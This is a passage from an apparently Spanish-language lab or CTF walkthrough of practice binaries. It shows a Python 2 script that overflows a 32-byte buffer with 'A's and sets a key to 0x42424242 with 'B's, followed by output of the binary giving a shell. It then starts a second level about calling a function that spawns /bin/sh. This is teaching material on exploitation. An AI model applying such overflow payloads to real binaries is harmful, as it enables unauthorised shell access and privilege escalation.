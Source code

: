 - Para saber a cuanto equivale el valor `key` podemos hacerlo desde `bash`.

```bash
➜  levels echo -ne "\x42"
B%
```

- Como sabemos que equivale ala letra `B` vemos que esta igualado a `4` `B` para poder obtener la `Bash` que necesitamos necesitamos enviar el tamaño del Buff que son `32 bytes` + las B para que la condición se true y se ejecute.

- Vamos a crear un script rápido en `python` que haga todo lo que necesitamos.

```bash
#!/usr/bin/python2

first = b"A" * 32 # le pasamos 32 veces A para el buffer

key = b"B" * 4 # le pasamos las 4 B 

print(first + key)
```

- Al cumplirse todas las condiciones nos debería de otorgar una `bash` como el usuario que esta corriendo el binario en este caso será mi usuario ya que yo lo estoy ejecutando.

- Allí podemos ver los `prints` que se cumplen y por eso nos otorga la `bash`.

```bash
➜  levels ./levelOne $(python2 scriptOne.py)
Buf is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Key is: 0x42424242
$ whoami
miguel
```

## LevelTwo

> Llamada a la dirección de una función que te otorga una /bin/sh.

- Continuamos con el nivel 2 vamos a ver el código.

- En este caso vemos que en el código se esta definiendo el `uid` al propietario del binario ósea `level2` ya que este es el segundo binario el `uid` funciona para almacenar identificadores de usuario, es el identificador de usuario en Linux y antes del return podemos ver que esta llamando a una función llamada `hello`.

<p align="center">